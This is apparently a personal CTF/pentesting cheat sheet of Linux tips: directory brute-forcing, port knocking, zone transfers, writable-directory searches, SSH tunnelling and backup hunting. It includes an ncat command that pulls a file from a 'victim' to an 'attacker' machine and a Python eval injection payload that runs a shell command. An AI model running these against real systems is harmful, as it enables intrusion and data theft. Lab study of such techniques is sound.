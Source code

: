 # For linux

* Change host timezone
    - `echo "Asia/kolkata" > /etc/timezone`
    - `dpkg-reconfigure -f noninteractive tzdata`
* Always run dirsearch with extensions
    - `python dirsearch.py -f -e html,php,tar.gz,txt,xml,zip,jpg,png,jpeg -u IP LIST`
* Port knocking with nmap
    - `for x in 066 666 3432; do nmap -Pn --max-retries 0 -p $x 10.10.10.10; done`
    - If you find set of 3 numbers possible options is port knocking
* Transfer with ncat
    - `nc -q1 -lvp 1234 < file` - on victim machine
    - `nc IP 1234> file` - on attackers machine
* use `dig axfr somedomain` to actually find other zone tranfser
    - checkout tempus fugit writeup
* If enum/sudo doesn't do any good.....check for writeable dirs
    - `find / -type d 2>/dev/null`
* LFI to RCE via SSH log poisoning
    - https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/
* To escape eval in python
    - https://nedbatchelder.com/blog/201206/eval_really_is_dangerous.html
    - `eval("__import__('os').system('ls')#")``

* Remote port forwarding:
    - ssh -R port-to-frwd:internal-IP:service-port mzfr@user-IP
    - `ssh -R 44325:192.168.100.1:443 mzfr@192.168.56.1`
* If you don't find anything in /opt or /var/ then checkout /logs and /backups
    - Backups mostly contains .gz or .bak, if any file with non root perms is there or any file without those extension then check that out.
